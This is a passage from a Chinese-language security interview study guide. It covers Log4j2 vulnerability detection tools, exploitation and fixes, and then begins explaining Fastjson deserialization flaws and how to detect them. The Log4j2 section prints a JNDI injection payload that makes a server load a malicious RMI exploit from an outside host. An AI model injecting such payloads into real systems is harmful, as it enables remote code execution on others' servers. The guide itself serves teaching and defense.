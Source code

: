 通过插件的方式，将lLog4j2漏洞检测能力集成到burp，从而提升安全测试人员的漏洞发现能力。

github项目地址：

https://github.com/f0ng/log4j2burpscanner

（4）AWVS等漏洞扫描工具扫描log4j2漏洞

AWVS等漏洞扫描工具支持Log4j2漏洞检测，支持批量扫描。

### 1-4.漏洞利用

攻击者构造下面payload提交给服务器，服务器访问并执行rmi服务器恶意exoloit，从而获取目标服务器的权限。

```
${jndi:rmi://rmi服务器地址/exploit}
```

攻击过程示意图：

![img](https://image.201068.xyz/assets/0.3.第二阶段面试题/clip_image002-1733806107703-10.jpg)

### 1-5.修复建议（重点）

（1）添加jvm启动参数-Dlog4j2.formatMsgNoLookups=true；

（2）在应用classpath下添加log4j2.component.properties配置文件，文件内容为log4j2.formatMsgNoLookups=true；

（3）JDK使用11.0.1.8u191.7u201.6u211及以上的高版本；

（4）限制受影响应用对外访问互联网；

（5）禁用JNDI。如在spring.properties里添加spring.jndi.ignore=true；

（6）部署使用第三方防火墙产品进行安全防护，并更新WAF.RASP规则等。

## 2.了解过fastjson漏洞吗，原理是什么？（重点）

### 2-1.Fastjson介绍

Fastjson是阿里巴巴开发的一款高性能的Java JSON库。在某些版本的Fastjson中，存在反序列化漏洞。攻击者可以通过构造恶意的JSON数据，执行任意代码或获取敏感信息。

### 2-2.Fastjson漏洞原理

Fastjson的漏洞本质还是一个java的反序列化漏洞，由于引进了AutoType功能，Fastjson在对json字符串反序列化的时候，会读取到@type的内容，将json内容反序列化为java对象并调用这个类的setter方法。

### 2-3.fastjson漏洞检测

（1）判断是否存在fastjson

如果有原始报错回显，尝试发送一个单独的 { 来触发报错，如果报错中明确包含fastjson则代表存在fastjson。

（2）判断是jackson还是fastjson

java系处理json一般采用fastjson或jackson，jackson要求json与javabeacon严格对齐，假定需求的json如下

```
{"name":"json", "age":21}
```
